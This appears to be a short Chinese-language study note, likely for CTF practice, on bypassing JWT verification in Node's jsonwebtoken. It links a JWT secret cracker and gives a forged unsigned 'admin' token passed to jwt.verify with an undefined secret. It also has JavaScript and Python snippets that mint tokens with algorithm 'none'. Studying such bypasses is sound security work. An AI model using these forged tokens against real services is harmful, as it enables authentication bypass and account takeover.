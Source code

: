 - [破解工具](https://github.com/brendan-rius/c-jwt-cracker)
- 可以简单理解为签名后的对象
-
- 不知道 secret，可以通过传入一个 undefined 来关闭验证功能。
	- ```javascript
	  const evil_jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY0NzMzNDY5OH0."
	  const result = jwt.verify(
	  evil_jwt,   // 不包含签名的自定义jwt
	  undefined,  // secret
	  "HS256"     //受害者指定的加密算法
	  );
	  ```
- 也可以通过将签名算法设置为none直接通过
	- ```js
	  const jwt = require('jsonwebtoken');
	  global.secrets = [];
	  var user = {
	      secretid: [],
	      username: '114514',
	      password: '114514',
	      iat: 1693146076
	  }
	  const secret = global.secrets[user.secretid];
	  var token = jwt.sign(user, secret, { algorithm: 'none' });
	  console.log(token);
	  
	  ```
	- ```python
	  import jwt # pip install PyJWT
	  
	  header = {
	      "alg": "none",
	      "typ": "JWT"
	  }
	  
	  payload = {
	      "sub": "user123",
	      "exp": 1624632000  # 设置过期时间
	  }
	  
	  jwt_token = jwt.encode(payload, "", algorithm="none", headers=header)
	  print(jwt_token)
	  ```